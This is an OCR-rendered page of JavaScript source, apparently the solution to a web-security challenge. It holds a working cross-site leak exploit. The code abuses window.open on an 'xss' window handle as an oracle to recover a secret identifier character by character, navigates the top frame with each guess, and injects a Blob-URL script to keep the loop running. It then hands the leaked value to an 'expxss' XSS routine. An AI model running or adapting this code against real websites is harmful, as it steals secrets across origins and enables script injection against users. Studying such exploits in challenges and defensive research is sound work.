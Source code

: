 ```
    let lastValue = 0;
    let identifier = '';
    let stop = false;

    async function getTopName() `{`
        let i = 0;
        // it's just magic. tl;dr chrome and firefox work differently 
        // but this polyglot works for both;
        for (; i &lt; keywords.length + 1; i++) `{`
            let res = await (async () =&gt; `{`
                let x;
                try `{`
                    // shouldn't trigger new navigation
                    x = xss.open('xxxx://no-trigger', i + lastValue);
                    // this is for firefox
                    if (x !== null) return 1;
                    return;
                `}` catch (e) `{``}`
            `}`)();
            if (res) break;
        `}`
        return i + lastValue;
    `}`

    async function watchForNameChange() `{`
        let topName = await getTopName();
        if (topName !== lastValue) `{`
            const newTopName = topName - lastValue;
            lastValue = topName;
            get_char(newTopName - 1);
        `}` else `{`
            setTimeout(watchForNameChange, 60);
        `}`
    `}`

    function oracleLoaded() `{`
        watchForNameChange();
    `}`

    function log(identifier) `{`
        leakedIdentifier.innerHTML = identifier;
        console.log(identifier);
    `}`

    function get_char(d) `{`
        let c = keywords[d]
        if (c === '~') `{`
            identifier = identifier.slice(0, -1) + keywords[keywords.search(identifier.slice(-1)) + 1];
            log(identifier);
            expxss(identifier);
            return;
        `}`
        identifier += c;
        log(identifier);
        top.location = top_url + '##' + identifier;
        top.lload.location = URL.createObjectURL(new Blob([
            '&lt;script&gt;onload=top.x.oracleLoaded&lt;\/script&gt;'
        ], `{`
            type: 'text/html'
        `}`));
    `}`

```